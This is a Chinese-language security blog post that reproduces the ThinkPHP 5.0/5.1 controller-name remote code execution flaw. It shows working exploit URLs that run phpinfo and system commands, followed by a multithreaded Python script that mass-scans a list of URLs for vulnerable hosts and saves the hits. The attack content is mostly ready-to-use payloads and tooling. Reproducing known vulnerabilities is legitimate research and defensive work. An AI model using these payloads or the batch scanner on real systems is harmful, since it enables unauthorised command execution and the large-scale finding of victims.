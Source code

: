 ```yaml
---
layout: post
title: "ThinkPHP V5.1命令执行漏洞复现"
subtitle: "ThinkPHP V5.1命令执行漏洞复现"
date: 2019-01-13
author: ppbibo
category: security
finished: true
---
```

[TOC]

## 前言：

ThinkPHP官方2018年12月9日发布重要的[安全更新](https://blog.thinkphp.cn/869075)，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

## 影响范围：

 5.x < 5.1.31, <= 5.0.23

## 测试环境：

ThinkPHP V5.1.1

Apache/2.4.37 (Win32) OpenSSL/1.1.1

PHP version 7.2.12

## 复现：

```
访问:	http://10.211.55.7/tp5.1/public/index.php
```

[![-1](./ThinkPHP V5.1命令执行漏洞复现 _ bibo @ 安全小生_files/-1.png)](/static/img/-1.png)

```
输入：http://10.211.55.7/tp5.1/public/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

[![-0.5](./ThinkPHP V5.1命令执行漏洞复现 _ bibo @ 安全小生_files/-0.5.png)](/static/img/-0.5.png)

```
访问：http://10.211.55.7/tp5.1/public/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ipconfig
```

[![0](./ThinkPHP V5.1命令执行漏洞复现 _ bibo @ 安全小生_files/0.png)](/static/img/-0.png)

## 编写批量扫描脚本

```
# coding:utf-8

import threading
import time
import requests
import os


def scan(urls):

    """Python 3.x"""

    """ 批量检测是否存在Think PHP 5.1 命令执行漏洞 """

    if urls[-1] != '/':

        urls += '/'

    headers = {'user-aget': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36'}

    payload = "/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=testpage"

    url = urls + payload

    try:

        req = requests.get(url=url,headers=headers,timeout=10)

        if "testpage" in req.text:

            print("[+] Ture url:{}".format(urls))

            print("{}".format(urls),file=open('save.txt','a'))

        else:

            print("[-] False url:{}".format(urls))

    except:

        pass

if __name__ == '__main__':

    while True:

        text = input('url.txt:')

        if os.path.exists(text):
            print('[+]{} existence'.format(text))
            break

        else:
            print('[-]{} not existence'.format(text))
            continue

    with open("{}".format(text), 'r') as e:

        for r in e.readlines():

            qc = "".join(r.split('\n'))

            # print(qc)

            t = threading.Thread(target=scan, args=(qc,))
            t.start()

            time.sleep(0.5)
```